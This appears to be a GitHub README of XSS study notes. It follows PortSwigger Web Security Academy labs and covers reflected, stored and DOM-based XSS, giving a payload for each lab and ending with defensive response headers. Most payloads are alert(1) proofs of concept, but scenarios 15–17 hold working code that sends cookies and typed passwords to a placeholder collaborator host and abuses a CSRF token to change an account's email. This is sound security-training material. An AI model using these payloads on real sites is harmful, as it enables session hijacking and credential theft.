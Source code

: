 # Cross-Site Scripting (XSS)

Cross-site scripting (XSS) is a vulnerability that enables attackers to inject malicious JavaScript into web pages. When executed inside a victim's browser, the attacker can compromise the user's interaction with the application.

---

## 📂 Types of XSS Attacks

### 1. Reflected XSS

- Occurs when the application immediately reflects unsanitized input from an HTTP request into the response.
- **Example:**
  ```html
  "><svg src=x onload=alert(1)>
  ```

### 2. Stored XSS

- Also known as **persistent XSS**, where malicious input is stored on the server and served to users in later HTTP responses.
- **Example:**
  ```html
  <><img src=1 onerror=alert(1)>
  ```

### 3. DOM-based XSS

- Involves the client-side JavaScript processing untrusted data and writing it to the DOM in an unsafe way.
- Example sinks: `document.write()`, `.innerHTML`, jQuery selectors, etc.

---

## 🔍 Example Scenarios

### 1.	DOM XSS in document.write sink using source location.search
­	 ![ss](ss/1.png)
-­	document.write() writes raw HTML into the page.
­-      "><svg src=x onload=alert(1)>
### 2.	DOM XSS in document.write sink using source location.search inside a select element
­	 ­	 ![ss](ss/2.png)
-     ­	"></select><img%20src=1%20onerror=alert(1)>
### 3.	DOM XSS in innerHTML sink using source location.search
­	![ss](ss/3.png)
­	-      javascript:alert(1) 
- ­	Here query is directly injects it into the DOM using .innerHTML
-     ­	<img src=1 onerror=alert(1)>
### 4.	DOM XSS in jQuery anchor href attribute sink using location.search source
­	 ![ss](ss/4.png)
-     ­	https://academy.net/feedback?returnPath=javascript:alert(1)
### 5.	DOM XSS in jQuery selector sink using a hashchange event
­	 ![ss](ss/5.png)
- ­	This code listens to the URL hash fragment (everything after #).
- ­	It extracts that hash and injects it directly into a jQuery selector using :contains(...).
- ­	If an attacker can control the hash, they can break out of the selector string and inject arbitrary code.
-     ­	<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>             -- deliever from another server or html 
### 6.	Reflected DOM XSS
­	 ![ss](ss/6.png)
- ­	This line parses the server’s JSON response using eval(), which allows attackers to execute arbitrary JavaScript code if they control or tamper with the response.
-     ­	\"-alert(1)}//
### 7.	Stored DOM XSS
­	 ![ss](ss/7.png)
-     ­	<><img src=1 onerror=alert(1)>
### 8.	Reflected XSS into attribute with angle brackets HTML-encoded
­	 ![ss](ss/8.png)
-     ­	"onmouseover="alert(1)
### 9.	Stored XSS into anchor href attribute with double quotes HTML-encoded
­	 ![ss](ss/9.png)
-     "onmouseover="alert(1)
### 10.	Reflected XSS into a JavaScript string with single quote and backslash escaped
­	 ![ss](ss/10.png)
-     ­	</script><script>alert(1)</script>
### 11.	Reflected XSS into a JavaScript string with angle brackets HTML encoded
­	 ![ss](ss/11.png)
-     ­	'-alert(1)-'
### 12.	Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped
­	 ![ss](ss/12.png)
-     ­	\'-alert(1)//
### 13.	Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped
­	 ![ss](ss/13.png)
-     ­	http://aa.com/?%27-alert(1)-%27 or http://aa.com/?&apos;-alert(1)-&apos;  
### 14.	Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped
­	 ![ss](ss/14.png)
-     ­	${alert(1)}
### 15.	Exploiting cross-site scripting to steal cookies
-     ­	<script>
      fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
      method: 'POST',
      mode: 'no-cors',
      body:document.cookie
      });
      </script>
### 16.	Exploiting cross-site scripting to capture passwords
-     ­<input name=username id=username>
      <input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
      method:'POST',
      mode: 'no-cors',
      body:username.value+':'+this.value
      });">
### 17.	Exploiting XSS to bypass CSRF defences
-   	<script>
      var req = new XMLHttpRequest();
      req.onload = handleResponse;
      req.open('get','/my-account',true);
      req.send();
      function handleResponse() {
      var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
      var changeReq = new XMLHttpRequest();
      changeReq.open('post', '/my-account/change-email', true);
      changeReq.send('csrf='+token+'&email=test@test.com')
      };
      </script>
---
## 🔎 Response Headers to Look For:

- Content-Type: Should be text/html; charset=UTF-8 or appropriate type.
- Content-Security-Policy: Helps mitigate XSS by restricting sources.
- X-Content-Type-Options: Should be nosniff.
- X-XSS-Protection: Older browsers may honor this.
- Set-Cookie: Should include HttpOnly and Secure flags to protect cookies.
- Access-Control-Allow-Origin: If incorrectly configured, it could expose data cross-domain.

